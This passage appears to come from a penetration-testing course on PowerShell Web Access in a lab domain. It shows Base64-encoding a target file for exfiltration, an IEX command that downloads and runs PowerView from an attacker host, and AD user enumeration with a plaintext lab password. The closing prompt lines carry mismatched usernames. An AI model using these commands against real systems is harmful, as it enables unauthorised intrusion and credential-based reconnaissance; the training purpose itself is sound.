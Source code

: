 When working with PowerShell Web Access and needing to retrieve large amounts of information, we should consider using `Base64` output to optimize the process. PowerShell Web Access connects to the target machine to retrieve each line, meaning it may take much time to retrieve a large file if we are on a slow network.

For example, if we try to get the contents of `C:\Windows\System32\drivers\etc\hosts` using `cat`, it will take some time to load due to the line-by-line transfer. Instead, we can use the following command to convert the file contents to Base64:

```powershell
PS C:\Tools> [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\System32\drivers\etc\hosts"))

```

![text](vGDt33S6RZgJ.png)

This will load faster. We can then copy that content to a file, replace the break lines, and use `cat hosts_base64.txt | base64 -d > hosts` in a Linux terminal to decode the content quickly.

In case we want to use `PowerView` through `PowerShell Web Access` we may get the following error:

```powershell
PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.87/PowerView.ps1')
PS C:\Tools> Get-DomainUser
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At line:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
 + FullyQualifiedErrorId : DirectoryServicesCOMException

```

To prevent this from happening, we must specify our credentials as follows:

```powershell
PS C:\Tools> $username = "INLANEFREIGHT\Helen"
PS C:\Tools> $password = "RedRiot88"
PS C:\Tools> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Tools> Get-DomainUser -Credential $credential -FindOne

logoncount                    : 1100
badpasswordtime               : 6/27/2024 6:32:03 AM
description                   : Built-in account for administering the computer/domain
distinguishedname             : CN=Administrator,CN=Users,DC=inlanefreight,DC=local
objectclass                   : {top, person, organizationalPerson, user}
lastlogontimestamp            : 6/30/2024 6:21:56 AM
name                          : Administrator
lockout time                   : 0
objectsid                     : S-1-5-21-2760730334-3436498779-657182845-500
samaccountname                : Administrator
logonhours                    : {255, 255, 255, 255...}
...SNIP...

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>
